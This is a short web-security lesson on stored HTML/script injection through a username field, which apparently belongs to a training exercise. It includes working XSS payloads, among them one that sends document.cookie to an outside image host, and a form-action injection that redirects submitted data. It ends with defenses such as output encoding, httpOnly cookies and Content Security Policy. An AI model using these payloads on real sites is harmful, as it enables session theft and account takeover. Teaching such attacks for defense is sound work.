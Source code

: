 
# HTML Injection, part 2

If someone changed their username to:

	username<script>alert('hi')</script>

And then got the admin to look at their profile (username "admin", password "password")... what would happen?

Could this do something more evil?

Maybe there are some cookies to steal?

---

For example, try setting the username to:

	username<script>alert(document.cookie)</script>

Then click back and refresh the page.

Now try creating an image with JavaScript:

	username<script>document.write('<img src=https://www.krang.org.uk/misc/scientist-100.jpg />');</script>

And by combining the two together:

	username<script>document.write('<img src=https://www.krang.org.uk/misc/scientist-100.jpg?c='+encodeURIComponent(document.cookie)+' />');</script>

So after refreshing the page, you will see that the image is requested, with the cookies in it's URL.

To make this less noticeable, you could use a 1x1 pixel transparent GIF, or something more malicious.

---

To fix...

As before, you should encode all user supplied values on the page (i.e. htmlspecialchars).

You can also try to limit the amount of damage that can be done - for example, cookies can be marked as `httpOnly`, which means JavaScript itself cannot steal whats stored in them (if JavaScript makes requests to your website, e.g. via XMLHttpRequest, then these cookies are still sent to the server).

And you can look at adding a [Content Security Policy](https://developers.google.com/web/fundamentals/security/csp/) - this is a really nice way to stop requests being made out to evil websites.

It's also a good idea to not use any inline JavaScript or Styles, and get the Content Security Policy to enforce this. There are cases where this can be tricky, but it's not impossible.

---

Bonus problem...

What happens if the username is set to:

	username<form action=https://example.net class=basic_form>

Now go back, and try making another change, and see where the form is sent to.

You will also notice that the full URL contains all of the details that were in that form :-)
